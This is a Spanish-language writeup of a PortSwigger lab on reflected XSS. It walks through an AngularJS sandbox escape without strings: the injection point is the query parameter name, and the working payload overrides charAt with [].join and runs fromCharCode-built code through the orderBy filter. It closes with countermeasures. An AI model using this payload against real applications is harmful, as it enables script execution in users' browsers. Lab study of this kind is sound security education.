

# Writeup: Reflected XSS with AngularJS sandbox escape without strings (PortSwigger)

- **Lab**: Reflected XSS with AngularJS sandbox escape without strings
- **URL**: https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings
- **Categoría**: XSS -> Reflected -> Client-side template injection -> AngularJS sandbox escape
- **Dificultad**: Practitioner

---

## 1. Objetivo

El lab usa AngularJS de una forma poco común: toma datos de la query string, construye un objeto en `$scope.query` y evalúa el **nombre del parámetro** con `$parse`. La función `$eval` no está disponible y el payload no puede usar strings con comillas.

Para resolverlo hay que ejecutar `alert(1)` escapando el sandbox de AngularJS sin usar `$eval` ni literales de string (`'...'` o `"..."`).

### Lo que ya sabemos antes de tocar nada

- **Framework**: AngularJS legacy con sandbox activo.
- **Punto de inyección real**: nombre del parámetro de query string, no su valor.
- **Restricción 1**: `$eval` no está disponible.
- **Restricción 2**: no se pueden usar strings con comillas.
- **Primitivo de ejecución**: el filtro AngularJS `orderBy` acepta una expresión como argumento y puede usarse como sustituto de `$eval`.

---

## 2. Reconocimiento del contexto

### 2.1 Prueba inicial que NO funciona

Primera prueba:

```text
?search={{7*7}}
```

El HTML generado muestra:

```html
<script>
angular.module('labApp', []).controller('vulnCtrl', function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = '{{7*7}}';
    $scope.value = $parse(key)($scope.query);
});
</script>
<h1 ng-controller="vulnCtrl">0 search results for {{7*7}}</h1>
```

Esto confirma que `{{7*7}}` queda como **valor literal** de `query.search`. Angular no evalúa la interpolación del valor; sólo evalúa la expresión que recibe `$parse`.

La llamada importante es:

```js
$parse(key)($scope.query)
```

Con `key = 'search'`, Angular evalúa la expresión `search`, busca esa propiedad en `$scope.query` y devuelve su valor literal: `{{7*7}}`.

### 2.2 La inyección está en el nombre del parámetro

Si queremos que `$parse(...)` evalúe una expresión controlada, necesitamos controlar `key`. En este lab eso se consigue añadiendo un segundo parámetro cuyo **nombre** sea la expresión AngularJS:

```text
?search=1&7*7=1
```

La idea no es que el valor `1` importe. Lo importante es que la aplicación acaba procesando el nombre `7*7` como expresión AngularJS. Esa es la diferencia respecto a `?search={{7*7}}`, donde sólo controlábamos un valor.

### 2.3 Por qué no basta con `alert(1)`

AngularJS no ejecuta JavaScript arbitrario directamente desde expresiones de template. Su sandbox bloquea objetos y propiedades peligrosas, como `window`, `Function`, `constructor`, `call`, `apply` y otros caminos típicos hacia ejecución de código.

Un payload directo como este no pasa:

```text
?search=1&alert(1)=1
```

Hay que engañar al parser/sandbox para que acepte la expresión y, además, construir el string del payload sin comillas.

---

## 3. Payload final

URL final, cambiando sólo el host del lab:

```text
https://LAB.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

Payload decodificado por partes:

```js
toString().constructor.prototype.charAt=[].join;
[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

El `=` de la primera asignación va como `%3d` en la URL porque tiene que formar parte del **nombre del parámetro**, no actuar como separador de query string.

---

## 4. Por qué funciona

### 4.1 Crear un string sin comillas

El lab no permite usar strings, así que no podemos escribir algo como:

```js
'x=alert(1)'
```

El payload usa `toString()` para obtener una cadena sin escribir comillas:

```js
toString()
```

Ese valor es un string, y todo string tiene una propiedad `constructor` que apunta a `String`:

```js
toString().constructor
```

Con eso se llega a `String.fromCharCode(...)` sin escribir `String` como objeto global peligroso:

```js
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

Los códigos ASCII generan:

```js
x=alert(1)
```

Tabla de caracteres:

| Código | Carácter |
|---|---|
| `120` | `x` |
| `61` | `=` |
| `97,108,101,114,116` | `alert` |
| `40` | `(` |
| `49` | `1` |
| `41` | `)` |

### 4.2 Romper el sandbox con `charAt=[].join`

AngularJS usa internamente funciones de análisis léxico para decidir si una secuencia de caracteres puede ser un identificador seguro. Un escape clásico modifica `String.prototype.charAt`:

```js
toString().constructor.prototype.charAt = [].join
```

`[].join` no se comporta como `charAt`. En vez de devolver un único carácter en la posición solicitada, devuelve una cadena compuesta a partir de los elementos recibidos. Esto rompe una suposición interna del sandbox: Angular cree que está comprobando caracteres individuales, pero recibe valores más largos.

El resultado práctico es que el sandbox deja pasar una expresión que normalmente bloquearía.

### 4.3 Usar `orderBy` como sustituto de `$eval`

En AngularJS, `|` dentro de una expresión no es el operador OR bit a bit de JavaScript. Es el operador de **filtro**. La forma:

```js
[1]|orderBy:EXPRESION
```

pasa el array `[1]` al filtro `orderBy` y le entrega `EXPRESION` como argumento. `orderBy` evalúa esa expresión para ordenar elementos, así que se convierte en un sustituto útil cuando `$eval` está deshabilitado.

En este lab, el argumento de `orderBy` es el string generado con `fromCharCode(...)`:

```js
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

Eso produce `x=alert(1)`. Como `charAt` ya fue sobrescrito, AngularJS permite evaluar esa expresión y se ejecuta `alert(1)`.

---

## 5. Resolución

URL usada:

```text
https://0aac004d04ae3cae829d1bd600fc0077.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

Al cargar la URL, salta `alert(1)` y el lab queda marcado como **Solved**.



---

## 6. Resumen de la cadena

```mermaid
flowchart TB
    A[1. Search value con {{7*7}} no se evalua]
    B[2. El codigo usa $parse(key), no template interpolation del valor]
    C[3. Controlamos key mediante el nombre de un parametro extra]
    D[4. Payload modifica String.prototype.charAt con [].join]
    E[5. Se rompe una suposicion del sandbox de AngularJS]
    F[6. toString().constructor.fromCharCode crea x=alert(1) sin comillas]
    G[7. orderBy evalua la expresion como sustituto de $eval]
    H[8. alert(1) se ejecuta y el lab queda solved]

    A --> B --> C --> D --> E --> F --> G --> H
```

Tres ideas para llevarse:

1. **Distinguir valor vs nombre de parámetro**. `?search={{7*7}}` sólo mete `{{7*7}}` como valor literal. El lab se explota controlando el nombre del parámetro que llega a `$parse`.
2. **Sin strings no significa sin strings en runtime**. No podemos escribir `'x=alert(1)'`, pero podemos construirlo con `String.fromCharCode(...)` alcanzando `String` desde `toString().constructor`.
3. **El sandbox de AngularJS no era una frontera de seguridad fiable**. El escape modifica una primitiva global (`String.prototype.charAt`) para que el parser acepte una expresión que normalmente sería bloqueada.

---

## 7. Contramedidas

Defensas en orden de robustez:

1. **No pasar input no confiable a `$parse`**. `$parse` evalúa expresiones AngularJS. Si el nombre de un parámetro, una clave JSON o cualquier dato controlado por usuario llega ahí, la aplicación está exponiendo un evaluador de expresiones al atacante.
2. **No usar AngularJS legacy como frontera de seguridad**. El sandbox de AngularJS fue eliminado en AngularJS 1.6 y nunca debe considerarse un límite de seguridad. Aplicaciones antiguas que dependen de él deben migrar o aislar esos componentes.
3. **Tratar las claves de query string como datos, no como expresiones**. Si la aplicación necesita buscar `search`, debe leer explícitamente `query.search`, no evaluar el nombre de un parámetro.
4. **Filtrar sintaxis de expresiones de template cuando se incrusta input en plantillas cliente**. HTML-encoding no basta contra CSTI porque el framework puede decodificar y evaluar expresiones después.
5. **Content Security Policy estricta**. CSP ayuda a reducir impacto de muchas cadenas XSS, pero no debe ser la defensa principal si la aplicación sigue evaluando expresiones controladas.

---

## 8. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Reflected XSS with AngularJS sandbox escape without strings*. https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings
- PortSwigger Web Security Academy. (s.f.). *Client-side template injection*. https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection
- PortSwigger Research. (2016). *XSS without HTML: Client-Side Template Injection with AngularJS*. https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs
- OWASP Foundation. (s.f.). *Cross Site Scripting Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-xss.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-xss.md)
